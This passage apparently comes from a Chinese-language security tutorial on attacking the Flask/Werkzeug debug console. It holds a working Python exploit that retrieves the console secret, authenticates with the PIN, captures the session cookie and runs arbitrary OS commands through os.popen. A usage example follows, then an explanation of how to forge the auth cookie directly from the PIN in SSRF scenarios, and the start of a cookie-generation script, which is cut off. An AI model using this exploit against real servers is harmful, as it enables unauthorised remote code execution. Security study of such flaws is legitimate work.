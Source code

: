 ```py
        if len(secret) != 1:
            print("[-] Couldn't get the SECRET")
            sys.exit(-1)
        else:
            secret = str(secret[0])
            print(f"[+] SECRET is: {secret}")
        return secret
    
    def pin_auth(self):
        try:
            res = self.sess.get(f"{self.host}/console?__debugger__=yes&cmd=pinauth&pin={self.pin}&s={self.secret}")
            if res.status_code == 200:
                res_data = json.loads(res.text)
                if res_data['auth'] == True:
                    print("[+] pin auth succeed")
                    cookie = res.headers['Set-Cookie']
                    header_cookie = {'Cookie':cookie}
                    self.sess.headers.update(header_cookie)
        except:
            print("[+] pin auth error")
            exit()

    def execute_cmd(self):
        cmd = f'''__import__('os').popen(\'{self.cmd}\').read();'''
        res = self.sess.get(f"{self.host}/console?&__debugger__=yes&cmd={cmd}&frm=0&s={self.secret}")
        print("[+] execute command ouput:\n")
        print(html.unescape(res.text))

if __name__ == '__main__':
    EXP()
```运行
使用：
```bash
python werkzeug.py http://127.0.0.1:5000 123-469-476 ls
```

## cookie 构造
获得 pin 码之后, 通常利用步骤如下:
1. 访问 /console 获取 secret
2. 带上 secret 和 pin 码访问 pinauth 接口获取 cookie
3. 带上 secret 和 cookie 执行命令.

但在一些 ssrf 的场景下, 第二步无法获取到响应头,也就无法获取 cookie. 分析源码可以发现 cookie 与 pin 码有关, 且可以直接计算出来. 参考文章:[(RCE) Flask + Werkzeug генерируем куку на основе PIN кода](https://vk.com/@greyteam-rce-flask-werkzeug-generiruem-kuku-na-osnove-pin-koda)
因此在 flask debug rce 的利用中, 可以直接省略 pinauth 步骤,直接通过 pin 码算出 cookie. 


cookie 生成脚本如下:
```py
import hashlib
from itertools import chain
import time

probably_public_bits = [
    'root',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
```